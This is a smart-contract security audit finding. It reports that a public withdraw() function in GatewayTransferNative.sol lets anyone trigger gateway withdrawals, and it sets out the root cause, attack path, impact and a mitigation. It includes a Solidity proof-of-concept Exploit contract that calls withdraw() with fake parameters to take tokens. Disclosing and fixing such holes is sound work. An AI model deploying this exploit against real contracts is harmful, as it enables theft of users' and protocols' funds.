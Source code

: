 # Anyone Can Trigger Withdrawals from the Gateway on Behalf of Any User

## Summary

A missing access restriction in `GatewayTransferNative.sol:286` will cause an unauthorized withdrawal for the protocol as any attacker can call the `withdraw()` function directly with arbitrary parameters, bypassing all necessary checks and mechanisms enforced by the actual protocol flow.

## Root Cause

In `GatewayTransferNative.sol`, the `withdraw()` function is marked `public`, which allows any external user to invoke it freely. This function wraps a sensitive `gateway.withdraw()` call that triggers cross-chain token transfers.

## Internal Pre-conditions

- Attacker needs to observe or know a valid `externalId` value.
- Attacker chooses any arbitrary `sender` and `amount` combination.

## External Pre-conditions

- `gateway.withdraw()` must not have additional access control.
- Gas price must be sufficient to execute the withdrawal.

## Attack Path

1. Attacker directly calls the public `withdraw()` function with crafted parameters:

```solidity
withdraw(
    externalId,         // some random bytes32
    sender,             // encoded malicious address
    outputToken,        // any token that the gateway allows
    amount              // any value
)
```

2. `withdraw()` internally calls the `gateway.withdraw()` function.
3. Funds are transferred to the attacker’s control, bypassing legitimate cross-chain flow or validation logic.

## Impact

- The protocol suffers an arbitrary token withdrawal, potentially draining liquidity.
- The attacker gains full control over the withdrawn funds.

## Proof of Concept

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface IGatewayTransferNative {
    function withdraw(
        bytes32 externalId,
        bytes calldata sender,
        address outputToken,
        uint256 amount
    ) external;
}

contract Exploit {
    IGatewayTransferNative public gatewayTransfer;

    constructor(address _target) {
        gatewayTransfer = IGatewayTransferNative(_target);
    }

    function executeAttack(address outputToken, uint256 amount) external {
        bytes32 fakeExternalId = keccak256("fake_id");
        bytes memory fakeSender = abi.encodePacked(msg.sender); // attacker's address
        gatewayTransfer.withdraw(fakeExternalId, fakeSender, outputToken, amount);
    }
}
```

## Mitigation

- Mark the `withdraw()` function as `internal` and ensure it can only be accessed through controlled and verified internal contract logic, such as via a trusted router or `onlyGateway` modifier if needed.
